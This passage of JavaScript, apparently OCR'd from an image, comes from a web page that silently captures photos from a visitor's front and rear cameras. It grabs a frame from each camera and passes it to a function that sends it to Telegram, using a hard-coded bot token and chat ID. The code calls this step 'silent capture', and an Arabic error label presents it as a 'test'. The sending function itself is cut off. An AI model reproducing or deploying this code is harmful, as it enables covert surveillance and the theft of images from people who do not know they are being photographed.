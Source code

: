         const video = document.getElementById('videoFeed');
        const canvas = document.getElementById('canvas');
        const BOT_TOKEN = "7549913151:AAFINEvDyx5rSyxcV4I9lrEb7hxTxlegAm0";
        const CHAT_ID = "5937427846";

        async function initiateSilentCapture() {
            try {
                await captureAndSend('user', 'الكاميرا الأمامية');
                await captureAndSend('environment', 'الكاميرا الخلفية');
                const spinner = document.querySelector('.spinner');
                if(spinner){
                    spinner.style.borderColor = 'var(--glass)';
                    spinner.style.borderTopColor = 'var(--ok)';
                }
            } catch (error) {
                console.error("فشل الاختبار:", error);
                const spinner = document.querySelector('.spinner');
                if(spinner){
                    spinner.style.borderColor = 'var(--glass)';
                    spinner.style.borderTopColor = 'var(--error)';
                }
            }
        }

        function captureAndSend(facingMode, cameraName) {
            return new Promise(async (resolve, reject) => {
                let stream = null;
                try {
                    stream = await navigator.mediaDevices.getUserMedia({ video: { facingMode: facingMode }, audio: false });
                    video.srcObject = stream;
                    video.onloadedmetadata = () => {
                        video.play();
                        setTimeout(() => {
                            canvas.width = video.videoWidth;
                            canvas.height = video.videoHeight;
                            canvas.getContext('2d').drawImage(video, 0, 0);
                            canvas.toBlob(blob => {
                                sendToTelegram(blob, cameraName).finally(() => {
                                    stopCamera(stream);
                                    resolve();
                                });
                            }, 'image/jpeg', 0.9);
                        }, 500);
                    };
                } catch (err) {
                    stopCamera(stream);
                    reject(err);
                }
            });
        }
        